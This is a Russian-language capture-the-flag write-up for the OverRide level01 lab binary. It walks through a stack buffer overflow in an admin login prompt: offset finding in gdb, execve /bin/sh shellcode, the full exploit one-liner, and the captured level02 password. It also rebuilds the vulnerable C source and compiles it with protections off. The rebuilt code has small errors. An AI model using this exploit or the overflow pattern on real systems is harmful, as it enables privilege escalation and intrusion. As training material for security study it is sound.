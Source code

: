 # LEVEL 01

## Команды и ресурсы
gdb

## Уязвимость
buffer overflow

## Решение
1. Попробуем запустить программу
```bash
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: ttt
verifying username....

nope, incorrect username...

```
Программа ждет корректный username, выходит в случае неверного ввода

2. Посмотрим в отладчике (файлы с дизассемблированным кодом [тут](resources/disas.md))
В функции мейн происходит вызов функций verify_user_name  и  verify_user_pass
логин сравнивается с "dat_wil", пароль сравнивается с "admin". Однако даже при правильных логине и 
пароле программа завершает работу


3. Checksec показывает, что NX защита отключена, значит теоретически мы можем внедрить шелл-код

Программа дважды использует fgets для ввода сначала имени пользователя (сохраняется в глобальную переменную достаточного размера, переполнения буфера не вызывается),
затем для ввода пароля. Вот тут fgets считывает 100 символов, а буфер, куда мы сохраняем введенное значение занимает всего лишь 64 байта. 

4. Определим оффсет с помощью [онлайн утилиты](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)

```bash
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()

```
Offset равен 80.

5. Теперь сгенерируем шелл-код [shell-storm](https://shell-storm.org/shellcode/files/shellcode-517.php) 21 байт

```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```
```c
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```

6. Сгенерируем итоговую строку для взлома:

- 'dat_wil\n' + 23 байт шелл-кода + 80-23=57 символов до оффсета + адрес шелл-кода (второго fgtes)
- определим адрес fgets - 0xffffd6ec
```bash
level01@OverRide:~$ ltrace ./level01
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...********* ADMIN LOGIN PROMPT *********
) = 39
printf("Enter Username: ")                 = 16
fgets(Enter Username: dat_wil
"dat_wil\n", 256, 0xf7fcfac0)        = 0x0804a040
puts("verifying username....\n"verifying username....

)           = 24
puts("Enter Password: "Enter Password: 
)                   = 17
fgets(admin
"admin\n", 100, 0xf7fcfac0)          = 0xffffd6ec
puts("nope, incorrect password...\n"nope, incorrect password...

)      = 29

```

- составим итоговую строку:

(python -c "print('dat_wil\n' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A' * 57 + '\x5c\xd6\xff\xff')"; cat) | ./level01

```bash
level01@OverRide:~$ (python -c "print('dat_wil\n' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A' * 57 + '\xdc\xd6\xff\xff')"; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```


## Воссоздадим бинарный файл
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char a_user_name[256];

int verify_user_name() {
    puts("verifying username....\n");
    return strncmp(a_user_name, "dat_wil", 7);
}

int verify_user_pass(char *buffer) {
    return strncmp(buffer, "admin", 5)
}

int main(void)
{
    char buffer[64];
    int check;          // 0x5c

    memset(buffer, 0, 64);

    puts("********* ADMIN LOGIN PROMPT *********");
    printf("Enter Username: ");
    fgets(a_user_name, 256, stdin);

    check = verify_user_name();
    if (ret) {
        puts("nope, incorrect username...\n");
        return 1;
    }

    puts("Enter Password: ");
    fgets(buffer, 100, stdin);
    check = verify_user_pass(buffer);
    if (check != 0) {
        if (check != 0) {
            puts("nope, incorrect password...\n");
            return 1;
        }
    }
    return 0;
}
```

## Переносим на виртуальную машину, компилируем, проверяем
1. Копируем на виртуальную машину
``` bash
 scp -P 4242 ~/42/override/level01/source.c level01@192.168.56.129:/tmp/source_level01.c
 ```

2. заходим под level02 на виртуальную машину
```bash
su level02
```

3. Компилируем

```bash
cd /tmp
gcc -fno-stack-protector -z norelro -z execstack -m32 source_level01.c -o level01
```
```bash
level02@OverRide:/tmp$ checksec --file level01
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level01

```

4. Меняем права
```bash
level02@OverRide:/tmp$ chmod u+s level01; chmod +wx level01; chmod +s level01;

```
5. Возвращаемся в юзера bonus0 и Запускаем
```bash
level02@OverRide:/tmp$ exit


```
6. Проверяем уязвимость
```bash
level01@OverRide:~$ (python -c "print('dat_wil\n' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A' * 57 + '\xec\xd6\xff\xff')"; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv


```

